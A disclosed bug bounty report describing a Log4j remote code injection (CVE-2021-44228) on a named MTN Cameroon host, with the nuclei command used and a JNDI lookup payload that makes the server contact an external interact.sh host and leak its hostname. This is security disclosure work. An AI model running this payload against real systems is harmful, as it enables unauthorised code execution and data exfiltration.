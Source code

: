 # Remote code injection in Log4j on http://mtn1app.mtncameroon.net  - CVE-2021-44228

## Report Details
- **Report ID**: 1425563
- **URL**: https://hackerone.com/reports/1425563
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-12-14T03:55:04.508Z
- **Disclosed**: 2024-08-24T11:29:12.957Z

## Reporter
- **Username**: renzi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
###Summary
Hello,

I would to like report this security flaw on http://mtn1app.mtncameroon.net . Using script nuclei i can found CVE-2021-44228. This is a critical issue cause as remote command execution. On my test i just retrive hostname of machine via nuclei script. (https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml)

###Steps To Reproduce
How we can reproduce the issue;

1. run nuclei script via cmd; ./nuclei -u http://mtn1app.mtncameroon.net:8080/ -t ../nuclei-templates/cves/2021/CVE-2021-44228.yaml

It will retrive the hostname of machine on output " lastic-co1-nodes1.mtnnigeria.net"

Like this;

````
http://mtn1app.mtncameroon.net:8080/?x=${jndi:ldap://${hostName}.c6s11oscca8f9pc2lrggcghbnjyyyybjg.interact.sh/a} [lastic-co1-nodes1.mtnnigeria.net]
````

This vulnerability is on port 8080 and 8443;

* http://mtn1app.mtncameroon.net:8080
* https://mtn1app.mtncameroon.net:8443



###Mitigation
Update according the vendor and thecnical references..

###References
https://www.tenable.com/blog/cve-2021-44228-proof-of-concept-for-critical-apache-log4j-remote-code-execution-vulnerability
https://discuss.elastic.co/t/apache-log4j2-remote-code-execution-rce-vulnerability-cve-2021-44228-esa-2021-31/291476

## Impact

Remote command execution

## Attachments
No attachments
